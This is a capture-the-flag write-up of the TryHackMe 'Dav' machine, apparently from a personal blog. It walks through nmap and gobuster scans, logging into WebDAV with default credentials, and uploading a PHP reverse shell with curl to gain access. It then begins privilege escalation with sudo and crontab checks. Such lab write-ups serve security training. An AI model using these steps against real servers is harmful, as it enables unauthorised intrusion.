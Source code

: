 ```yaml
---
title: TryHackMe - Dav
author: Bonface
date: 2024-10-31 00:00:00 +0000
categories: [TryHackMe]
tags: [tryhackme, linux, nmap, privesc, http, gobuster, crack, SUID]
image:
    path: /assets/img/Dav/0.jpeg
    alt: Dav
---
```


# Dav

Boot2root machine for FIT and bsides guatemala CTF.  

# Tasks

Read user.txt and root.txt.  

# nmap

## `ip = 10.10.127.205`

## Command 
```sh
 nmap -sV -sC -A -v 10.10.127.205 | tee nmap.txt
```

## Results
```sh
80/tcp open http Apache httpd 2.4.18 ((Ubuntu))
| http-methods:
|_ Supported Methods: POST OPTIONS GET HEAD
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
106/tcp filtered pop3pw
```

# http_80

To Do List  

- run gobuster  
- surf the web  
- view source code  
- robots.txt  
- gobuster  

![](/assets/img/Dav/1.png))

### gobuster
```sh
 gobuster dir -u http://10.10.127.205 -w /usr/share/wordlists/dirb/common.txt
 ```

![](/assets/img/Dav/2.png))

We get this directory known as `/weddav`  
![](/assets/img/Dav/3.png))

Here i need a username and password.  
Did some research and got this default credentials.  
![](/assets/img/Dav/4.png))

User = `wampp`  
pass = `xampp`  
Entering the credentials i get a file `passwd.dav`file.  
![](/assets/img/Dav/5.png))

`=wampp:$apr1$Wm2VTkFL$PVNRQv7kzqXQIHe14qKA91`
Cracked the hash but got nothing much.  

I searched for web-dav vulnerability and got that we can upload files to it's server.  
I think if I can upload the shell and connect to it we can login into the system easily.  

I used a php reverse shell , changed the ip and uploaded it  
```sh
curl --user "wamp:xamp" http://10.10.127.205/webdev/ --upload-file reverseshell.php -v
```
![](/assets/img/Dav/6.png))

Run nc cat on my machine then run the code.  
Got the shell and stabilized it.  
![](/assets/img/Dav/7.png))  


Now it's just a matter of looking for the `user.txt `   
![](/assets/img/Dav/8.png))

# Privilege Escalation
For this i always first run  
- `sudo -l`
- cat `/etc/crontab`

## sudo -l
![](/assets/img/Dav/9.png))  
This was simple since the user can read any file with `sudo` without a password.  